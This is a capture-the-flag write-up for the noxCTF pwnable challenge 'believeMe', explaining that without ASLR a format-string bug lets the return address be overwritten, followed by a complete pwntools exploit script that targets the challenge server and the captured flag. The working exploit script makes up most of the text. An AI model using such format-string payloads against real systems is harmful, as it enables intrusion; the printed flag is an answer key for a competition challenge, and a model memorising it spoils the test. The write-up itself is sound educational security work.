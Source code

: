 # **believeMe**

#### tag : pwnable

-----------------------------------------------

#### Description

>What is going on here ? I don't believe you... you are crazy !!!
>
>(No ASLR)
>
>nc 18.223.228.52 13337
>
>believeMe

-----------------------------------------------

#### Solution

Because there is no ASLR, I can get ret's address from connection.

And I overwrite ret's address to address of `system("/bin/sh")`.

Here is solution script, [solve.py](./solve.py).

~~~

from pwn import *

### DEBUGGING ###

DEBUG = False

if DEBUG:
    r = process('believeMe')
    timeout = 0.1

    context.log_level = 'debug'
#    gdb.attach(r,'''
#    break *0x080487d3\n
#    ''')
else :
    r = remote('18.223.228.52',13337)
    timeout = 0.3

def rr(s):
    return r.recvuntil(s)

def ss(s):
    return r.sendline(s)

### ADDRESS ###

ret = 0xffffdd2c
flag = 0x0804867b

### PAYLOAD ###

payload = fmtstr_payload(9, {ret: flag}, numbwritten=0, write_size='short')

### EXPLOIT ###

rr('? ')

ss(payload)

rr('\n')

r.interactive()

#noxCTF{%N3ver_%7rust_%4h3_%F0rmat}

~~~

**noxCTF{%N3ver_%7rust_%4h3_%F0rmat}**

